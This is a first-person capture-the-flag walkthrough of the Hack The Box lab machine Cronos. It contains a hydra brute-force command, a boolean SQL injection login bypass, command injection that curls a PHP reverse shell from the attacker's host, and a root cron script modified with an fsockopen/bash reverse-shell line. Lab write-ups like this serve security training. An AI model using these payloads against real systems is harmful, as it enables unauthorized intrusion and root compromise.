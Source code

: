# Cronos [HTB](https://app.hackthebox.com/machines/11)
![cronos-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/cronos-01.png)


## Recon 

I start by adding the target to my `/etc/hosts` file, followed by an `nmap` scan:

```bash
nmap -sC -sV -A -p- cronos.htb -oN nmap.result
```

![namp-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/nmap-res-02.png)

We have the following:

+ An SSH server on port 22.
+ A DNS server on port 53. 
+ A Apache server on port 80.

Let's start with the DNS server to see if we can query some useful information, then we can take a look at the Apache server.

### DNS port 53

Lets try to query for all the entries that the server is willing to disclose:

```bash
dig any cronos.htb @cronos.htb
```

![any-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/any-03.png)

We got two new domains, `admin.cronos.htb` and `ns1.cronos.htb`. Im gussing the `admin` subdomain is tied to the Apache server. 

I also tried to pull off a zone transfer with:

```bash
dig axfr @cronos.htb
```

This failed, so i added the `admin.cronos.htb` subdomain to `/etc/hosts` and moved on to the Apcache server. 


### Apache Port 80


Lets navigate towards the main site at `http://cronos.htb/` 

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/site-04.png)

The main page hosts 5 links, all related to the `Laravel` web framework. I found the first link to be the most useful in getting a high-level overview of `Laravel`,  here is the bullet-points of the info.

+ `Laravel` is an open source PHP based framework, while they also recommend to download `Node` and `NPM`. 

+ There is an internal development server running on `http://localhost:8000`:

![development-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/development-05.png)

Worth to keep that in mind for the future in case we ever need it. 

+ An `.env` config file located at the root of the application should hold sensetive information including encryption keys for cookies and possibly credentials.  

![env-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/env-06.png)

I've tried to look for this file in the root of the site, wasnt able to find it. But lets keep an eye on that. 

The last link on the main site redirected me to `Laravel`'s Github page where we can find the source code. This is nice, and i read through it a bit, but it seems that the directory structure is different on our target. I tried to use directory treversal tricks to find juicy files but without much success.

So i decided to look online for some hacking tricks on `Laravel`, i found a few interesting articals like [this](https://labs.withsecure.com/publications/laravel-cookie-forgery-decryption-and-rce) one and [this](https://www.ambionics.io/blog/laravel-debug-rce) one, that describe more advanced attacks againts the EAS CBC chiper mode, and some serialized attacks againts PHP. 

Before delving into these sorts of attacks i decided to take a look at the `admin.cronos.htb` subdomain.

## admin.cronos.htb


If we open our browser and navigate towards `http://admin.cronos.htb` we are greeted to a login page:

![login-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/login-07.png)

At first i tried to brute force this page using `hydra`:

```bash
ydra -l admin -P  /usr/share/wordlists/rockyou.txt admin.cronos.htb http-post-form "/index.php:username=^USER^&password=^PASS^:invalid"
```

While this was going i decided to poke around for SQL injection. At first i tried to generate an error based repsonse, but this didnt work for me. So instead i focused on Boolean payloads when i found that this one works:

```sql
' OR NOT 1120=-1120-- tGvo
```

I input this as the username, and the password i just type `admin`. This gets me past the login page:

![logged-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/logged-08.png)

Looks like this page is running a command? lets look at the source code:

![source-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/source-09.png)


So we can either run `traceroute` or `ping`, and we can supply to which host. All of this info is getting passed via a POST form, lets intercept that with Burp:

![initial-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/initial-10.png)

Lets try to modify these parameters to run something like `ls .`

![mod-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/mod-11.png)

It works:

![rce-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/rce-12.png)


This `config.php` looks interesting, lets see whats inside:

![empty-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/empty-13.png)

Looks like its empty, but the server renders it anyway, lets try to overwrite this file with a PHP reverse shell and execute it via the URL. I use [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)'s reverse shell. 

After you download the file make sure to update your IP and port info:

![update-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/update-14.png)

Then rename the file to `config.php`, and start a python web server with:

```bash
python3 -m http.server 80
```

Now we can transfer this over to the target with the following request:

![upload-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/upload-15.png)

```bash
command=curl&host=http://10.10.14.61+-o+config.php
```

Lets start the listener with:

```bash
rlwrap nc -lnvp 443
```

Now when we open `http://admin.cronos.htb/config.php` the browser freezes, and we get a connection as the `www-data` user:

![shell-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/shell-16.png)


## Privilege Escalation

First thing i do when i land on the machine is upgrade to a TTY shell with:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

After that i started to look around the system, searching for unusual files, or programs, though i couldnt find something really interesting. 

Next i decided to hunt down for SUID binaries with:

```bash
find / -perm -4000 2>/dev/null
```

Again, nothing useful came up here. 

After that i took a look at the running processes with:

```bash
ps auxww
```

Nothing unusual. So i decided to look at `/etc/crontab` and this is where i found something intersting:

![crontab-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/crontab-17.png)

 
In essence,  root runs the `/var/www/laravel/aristan` file first and formost, lets take a look at this file:

![aristal-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/aristan-18.png)

A simple PHP script, so if we add a reverse shell line right at the top, wouldn't that give us a shell as root regardless of what should have happened next?  

I copy the file over to my kali machine where I can comfortably edit the file with `Vi`. Then i add the following two lines at the top:

```php
$sock=fsockopen("10.10.14.61", 443);
exec("/bin/bash -i <&3 >&3 2>&3");
```

![add-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/add-19.png)

I rename the orginal one on the target and transfer my variant with a python server. 


I then start my listener and get a connection one the cron-job is executed:

![root-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/root-20.png)
